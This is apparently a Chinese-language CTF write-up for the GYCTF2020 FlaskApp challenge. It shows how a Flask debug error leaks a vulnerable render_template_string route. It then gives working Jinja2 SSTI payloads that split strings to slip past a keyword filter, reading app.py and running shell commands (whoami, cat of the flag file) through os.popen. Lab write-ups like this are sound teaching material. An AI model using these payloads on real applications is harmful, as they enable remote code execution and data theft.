





# [GYCTF2020]FlaskApp

## 知识点

`flask`

`SSTI`

## 解题

进入首页看了一下是实现`base64`加解密的程序,提示为


应该是要我们让程序报错,当`flask`开启`debug`模式时,会暴漏部分源代码,尝试输入无法`base64解码`的字符串,我这里随便输了`123`



```python
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
```

发现是`python3`版本,而且有`waf`,尝试读一下`app.py`

```python
{{ c.__init__.__globals__['__builtins__'].open('app.py', 'r').read() }}
```

将`payload` `base64编码`后输入到解密框里解密得到源代码



发现过滤了`flag` `import` `popen` `os`等等,我们拼接一下

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('whoami').read()}}
```



能正常回显,在根目录找到了`flag`文件`/this_is_the_flag.txt`,可以通过切片或者拼接读取



切片`payload`

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('txt.galf_eht_si_siht/ tac'[::-1]).read()}}
```

拼接`payload`

```python
{{[].__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s')['po'+'pen']('cat /this_is_the_fl' + 'ag.txt').read()}}
```

